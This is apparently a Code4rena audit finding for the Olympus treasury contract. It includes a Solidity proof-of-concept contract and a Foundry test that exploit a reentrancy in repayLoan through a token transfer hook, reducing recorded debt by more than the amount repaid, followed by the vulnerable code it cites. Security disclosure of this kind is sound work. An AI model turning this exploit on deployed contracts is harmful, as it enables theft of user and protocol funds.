 ```solidity
    operator = op_;
  }

  function tokensToSend(address from, address to, uint256 amount) external override {
    if (!entered) {
    // call swap from reenter
    // which will manipulate the balance of treasury
      entered = true;
      operator.swap(token, 1e17, 0);
    }
  }
  
  function attack(OlympusTreasury treasury) public {
    // approve to the treasury
    token.approve(address(treasury), 1e18);
    token.approve(address(operator), 100* 1e18);

    // repayDebt of 1e17
    treasury.repayLoan(token, 1e17);
  }
}
```

```solidity
/// the test
    function test_poc__reenter() public {
        vm.prank(guardian);
        operator.initialize();

      reserve.mint(address(reenterer), 1e18);
      assertEq(treasury.reserveDebt(reserve, address(reenterer)), 1e18);
      // start repayLoan
      reenterer.attack(treasury);
      // it should be 9 * 1e17 but it is 8 * 1e17
      assertEq(treasury.reserveDebt(reserve, address(reenterer)), 8*1e17);
    }
```

### Cause

The `repayLoan`, in the line 110 below,  calls the `safeTransferFrom`. The balance before and after are compared to determine how much of debt is paid. So, if the `safeTranferFrom` can modify the balance, the attacker can profit from it.

```solidity
// OlympusTreasury::repayLoan
// https://github.com/code-423n4/2022-08-olympus/blob/b5e139d732eb4c07102f149fb9426d356af617aa/src/modules/TRSRY.sol#L105-L112
105     function repayLoan(ERC20 token_, uint256 amount_) external nonReentrant {
106         if (reserveDebt[token_][msg.sender] == 0) revert TRSRY_NoDebtOutstanding();
107
108         // Deposit from caller first (to handle nonstandard token transfers)
109         uint256 prevBalance = token_.balanceOf(address(this));
110         token_.safeTransferFrom(msg.sender, address(this), amount_);
111
112         uint256 received = token_.balanceOf(address(this)) - prevBalance;
```
